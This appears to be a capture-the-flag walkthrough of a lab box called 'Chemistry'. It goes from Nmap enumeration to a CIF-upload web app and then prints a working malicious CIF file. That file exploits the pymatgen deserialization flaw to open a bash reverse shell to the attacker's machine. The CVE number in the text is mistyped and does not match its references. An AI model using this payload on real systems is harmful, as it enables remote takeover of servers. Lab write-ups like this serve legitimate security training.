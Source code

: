 # Chemistry - Linux(Easy)

## Summary

## Inital startup
Check that you have successfully connected to the VPN and you can reach the box.

```
openvpn lab_connection.ovpn
ping <target IP>
```

## Enumeration
Begin enumeration on the host by running an Nmap scan. 

```
sudo nmap -sC -sV <target IP>

-sC 
-sV Version Scan
```

![nmap](Images/nmap.png)

We can see that there appears to be a HTTP web page hosted on port 5000.

## Web Page Investigation
We can try connecting directly to the web page.
```
http://<target IP>:5000
```
We can access the site. This shows a CIF Analyzer with a Login/Register options.

![webPage](Images/webPage.png)

Next we can register and login to the site. This brings us to a CIF file upload page.

![WebDash](Images/WebDash.png)

Download the example CIF file available on the dashboard.

![exampleCIF](Images/exampleCIF.png)


## CIF Vulnerability
Next, we can check if there are any vulnerabilities associated with CIF files that we can use to gain access to the box.

Searching online and we find CVE-2024-2334 which can be used for 'Arbitrary Code Execution in Pymatgen via Insecure Deserialization'.
```
Reference: 
https://ethicalhacking.uk/cve-2024-23346-arbitrary-code-execution-in-pymatgen-via-insecure/#gsc.tab=0
https://www.vicarius.io/vsociety/posts/critical-security-flaw-in-pymatgen-library-cve-2024-23346
```
Using the example in the articles we can craft a payload that reaches back to our attacking machine.

```
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in
().__class__.__mro__[1].__getattribute__
( 
	*[().__class__.__mro__[1]]
	+
	["__sub" + "classes__"]
) () 
if d.__name__ == "BuiltinImporter"]
[0].load_module("os")
.system("/bin/bash -c \'sh -i >& /dev/tcp/<Attacking Machine IP>/4444 0>&1\'");
0,0,0'

_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```


